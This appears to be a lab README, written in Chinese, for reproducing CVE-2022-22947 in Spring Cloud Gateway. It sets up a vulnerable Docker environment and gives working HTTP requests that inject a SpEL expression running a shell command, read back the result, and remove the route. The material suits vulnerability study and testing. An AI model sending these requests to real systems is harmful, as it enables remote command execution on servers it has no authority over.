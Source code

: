 # Spring Cloud Gateway Actuator API SpEL表达式注入命令执行（CVE-2022-22947）

Spring Cloud Gateway是Spring中的一个API网关。其3.1.0及3.0.6版本（包含）以前存在一处SpEL表达式注入漏洞，当攻击者可以访问Actuator API的情况下，将可以利用该漏洞执行任意命令。

参考链接：

- <https://tanzu.vmware.com/security/cve-2022-22947>
- <https://wya.pl/2022/02/26/cve-2022-22947-spel-casting-and-evil-beans/>

## 漏洞环境

执行如下命令启动一个使用了Spring Cloud Gateway 3.1.0的Web服务：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080`即可看到演示页面，这个页面的上游就是example.com。

## 漏洞复现

利用这个漏洞需要分多步。

首先，发送如下数据包即可添加一个包含恶意SpEL表达式的路由：

```http request
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: spring:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Content-Type: application/json

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}
```

![](1.png)

然后，发送如下数据包应用刚添加的路由。这个数据包将触发SpEL表达式的执行：

```http request
POST /actuator/gateway/refresh HTTP/1.1
Host: spring:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Content-Type: application/x-www-form-urlencoded


```

![](2.png)

发送如下数据包即可查看执行结果：

```http request
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: spring:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Content-Type: application/x-www-form-urlencoded
```

![](3.png)

最后，发送如下数据包清理现场，删除所添加的路由：

```http request
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: spring:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
```

![](4.png)

再刷新下路由：

```http request
POST /actuator/gateway/refresh HTTP/1.1
Host: spring:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Content-Type: application/x-www-form-urlencoded
```
